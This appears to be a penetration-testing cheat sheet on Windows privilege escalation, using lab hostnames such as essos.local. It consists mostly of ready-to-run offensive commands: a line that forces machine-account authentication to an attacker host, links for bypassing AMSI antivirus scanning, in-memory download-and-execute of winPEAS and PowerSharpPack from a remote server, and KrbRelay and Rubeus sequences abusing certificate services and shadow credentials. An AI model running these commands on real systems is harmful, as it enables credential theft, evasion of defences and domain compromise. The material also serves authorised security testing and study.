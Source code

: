 # PrivEsc

> Did you know you didn't need to use a potatoes exploit to going from iis apppool account to admin or system ?
> Simply use: 
> ```ps1
> powershell iwr http://attacker.ip -UseDefaultCredentials 
> ```
> To get an HTTP coerce of the machine account.
> <https://twitter.com/M4yFly/status/1745581076846690811?t=lntNso51gwxHZFPXGnSKpg&s=08>

## AMSI Bypass

- <https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell>
- <https://amsi.fail/>
- `amsi.dll` patching by rasta-mouse

## winPEAS in Memory

```ps1
$data=(New-Object System.Net.WebClient).DownloadData('http://10.10.10.200:8000/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```

### PowerSharpPack

```ps1
iex(new-object net.webclient).downloadstring('http://10.10.10.200:8000/PowerSharpPack/PowerSharpPack.ps1')
PowerSharpPack -winPEAS
```

### KrbRelay

- RBCD (by [@an0n_r0](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9))

- Relay to ADCS w/ web enrollment to request a certificate of template `Machine` (by [@t0-n1](https://t0-n1.github.io/posts/krbrelay-with-adcs-web-enrollment/))
    ```ps1
    # braavos is the server hosting the ADCS
    .\CheckPort.exe
    $krbrelay = .\KrbRelay.exe -spn http/braavos.essos.local -port 10 -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -endpoint certsrv -adcs 'Machine'
    $certificate = $krbrelay[-1]
    echo $certificate
    # The base64 encoded output is usable on `Rubeus.exe`'s `/certificate:<base64>`
    Invoke-Rubeus "asktgt /user:BRAAVOS$ /certificate:$certificate /nowrap"
    ```

- Shadowcred (by [@icyguider](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html))
    ```ps1
    # meereen is the domain controller
    .\CheckPort.exe
    .\KrbRelay.exe -spn ldap/meereen.essos.local -port 10 -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
    # follow the output to use Rubeus
    ```

## Useful Links

- <https://github.com/S3cur3Th1sSh1t/PowerSharpPack>
- [EncodeAssembly.ps1](https://gist.github.com/Mayfly277/2e5f34a7e7f70798d1f19c0c35f9fa0e)
- <https://github.com/Dec0ne/KrbRelayUp>
- <https://github.com/cube0x0/KrbRelay>
- <https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9>

## Further Reading

- <https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/>
- <https://jlajara.gitlab.io/Potatoes_Windows_Privesc>
- <https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly>
- <https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/>
- <https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html>
- <https://t0-n1.github.io/posts/krbrelay-with-adcs-web-enrollment/>
- <https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html>
